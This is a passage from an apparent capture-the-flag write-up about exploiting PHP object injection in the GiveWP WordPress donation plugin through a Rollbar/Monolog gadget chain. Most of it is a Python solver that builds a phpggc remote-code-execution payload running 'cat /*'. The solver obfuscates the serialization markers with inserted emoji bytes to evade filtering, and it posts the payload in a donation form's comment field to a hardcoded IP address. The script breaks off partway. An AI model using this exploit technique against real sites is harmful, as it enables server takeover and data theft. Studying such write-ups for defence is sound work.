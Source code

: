 To exploit this vulnerability, you need just two things: one is the GiveWP form, and the second is the PHP POP Gadget. For the PHP POP Gadget, since the challenge has Rollbar installed, which is known to have a PHP POP Chain due to its dependency from a previous CTF here [Rollbar Plugin - PHP Object Injection Gadget:](https://www.notion.so/10848583e65d8026a1cbeb7d36f38336#d2f2d20e16e14429af47786aa6023db8) , you can use this as a gadget to exploit the PHP POP Chain. You can see more details on how to exploit this in the solver below.

## Solver

```python
import httpx
import asyncio
import re
import subprocess
URL = "http://52.77.81.199:9140/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url)

    def wp_login(self, username: str, password: str) -> None:
        return self.c.post("/wp-login.php", data={
            "log": username,
            "pwd": password
        })
    

class API(BaseAPI):
    async def donate(self, url) -> None:
        data = {
            "amount": "10",
            "currency": "USD",
            "donationType": "single",
            "formId": "9",
            "email": "admin@getmoreplugins.com",
            "gatewayId": "manual",
            "firstName": "a",
            "lastName": "a",
            "comment": subprocess.check_output("./phpggc/phpggc Monolog/RCE7 system 'cat /*'", shell=True).replace(b"a:", b"a%F0%9F%98%BC:").replace(b"O:", b"O%F0%9F%98%BC:").replace(b"s:", b"s%F0%9F%98%BC:").replace(b"i:",b"i%F0%9F%98%BC:").strip(),
            "company": "",
            "donationBirthday": "",
            "originUrl": "http://localhost:9140/donations/",
            "isEmbed": "true",
            "embedId": "9",
            "gatewayData[testGatewayIntent]": "test-gateway-intent"
        }
        
        # URL-encode the data
        return await self.c.post(url, files={"a":("a","b")}, data=data)  # Send the URL-encoded data with headers
    async def get_givewp_post_url(self):
        res = await self.c.get("/?givewp-route=donation-form-view&form-id=9")
        url = re.findall('"donateUrl":"(.*?)"',res.text)[0].replace("\\/", "/")
        return url   

async def main():
    api = API()

    # Get the signature and expiration
    url = await api.get_givewp_post_url()

    # Example usage of the donate method
```
